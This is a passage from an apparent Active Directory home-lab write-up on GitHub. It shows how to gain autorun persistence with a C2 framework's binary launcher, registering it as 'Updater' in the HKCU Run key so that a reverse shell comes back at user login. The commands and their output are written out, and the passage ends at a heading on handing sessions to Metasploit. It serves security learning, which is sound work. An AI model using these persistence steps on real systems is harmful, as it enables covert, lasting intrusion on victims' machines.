 ![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/a3851c4d-598c-4b75-9c29-0c98aa690173)

## 9. Autorun Persistence:

- In the `Launchers` tab, we will use `Binary Launcher` to generate a new binary file and download it.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/a8ca06b4-b864-4204-b700-488228ed7c4a)

- Now using `upload` cmd, upload the downloaded binary to the path as `C:\Users\Public\autorun.exe`

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/88f62407-9226-4f79-b477-d5d9c7b7f9e2)

- We need to run the uploaded binary, let's explore the `Task` tab in Grunts and search for PersistAutorun and paste the Targeted path.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/b22e2431-6996-4b99-891d-07588901c63f)

```shell
(singhx) > PersistAutorun /targethive:"CurrentUser" /name:"Updater" /value:"C:\Users\Public\autorun.exe"

Startup Persistence suceeded for: Updater
```

- To verify the newly installed registry we can run the cmd: `GetRegistryKey HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

``` shell
(singhx) > GetRegistryKey HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

Name: MicrosoftEdgeAutoLaunch_71135D3DF4DB2C6C910BB1B75863CF9D

  Kind: String

  Value: "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --no-startup-window --win-session-start /prefetch:5


  Name: Updater

  Kind: ExpandString

  Value: C:\Users\Public\autorun.exe
```

- So, when the user login to the Workstation we will hopefully get rev shell to our system.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/8e6d4304-244c-4a43-a8a0-12d29cb9c771)

## 10. Session Passing to Metasploit, SOCKS, and Autoroute Module
> #### Required systems: WorkStation-01,02 and DC-01
